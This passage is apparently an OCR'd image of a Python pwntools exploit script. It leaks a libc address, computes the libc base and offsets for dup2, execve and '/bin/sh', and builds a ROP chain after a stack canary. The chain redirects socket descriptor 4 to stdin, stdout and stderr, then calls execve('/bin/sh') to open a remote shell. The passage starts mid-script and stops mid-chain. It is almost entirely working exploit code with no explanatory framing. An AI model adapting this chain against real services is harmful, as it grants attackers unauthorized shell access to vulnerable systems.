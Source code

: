 ```
#  2271: 00000000000eb7d0   153 FUNC    WEAK   DEFAULT   14 write@@GLIBC_2.2.5
# strings -a -t x /lib/x86_64-linux-gnu/libc-2.29.so | grep /bin/sh
# 183cee /bin/sh
    dup2_offset   = 0xebf00
    execve_offset = 0xc7d60
    write_offset  = 0xeb7d0
    binsh_offset  = 0x183cee

else:
# readelf -s libc.so.6_ | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
#   999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
#  1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
#  2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
# strings -a -t x libc.so.6_  | grep /bin/sh
# 1b3e9a /bin/sh
    dup2_offset   = 0x1109a0
    execve_offset = 0xe4e30
    write_offset  = 0x110140
    binsh_offset  = 0x1b3e9a

libc_base = u64(libc_write) - write_offset
dup2 = p64(libc_base + dup2_offset)
binsh = p64(libc_base + binsh_offset)
execve = p64(libc_base + execve_offset)
log.success("Calculated addresses:")
print(f"    libc_base:          0x{libc_base:016x}")
print(f"    dup2:               0x{u64(dup2):016x}")
print(f"    execve:             0x{u64(execve):016x}")
print(f"    binsh:              0x{u64(binsh):016x}")

exploit =  junk + canary + rbp

# dup2(4,0)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += p64(0)
exploit += p64(0)
exploit += dup2

# dup2(4,1)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += p64(1)
exploit += p64(1)
exploit += dup2

# dup2(4,2)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += p64(2)
exploit += p64(2)
exploit += dup2

# execve("/bin/sh", 0, 0)
exploit += pop_rdi_ret
exploit += binsh
exploit += pop_rsi_r15_ret
exploit += p64(0)
exploit += p64(0)
exploit += pop_rdx_ret
```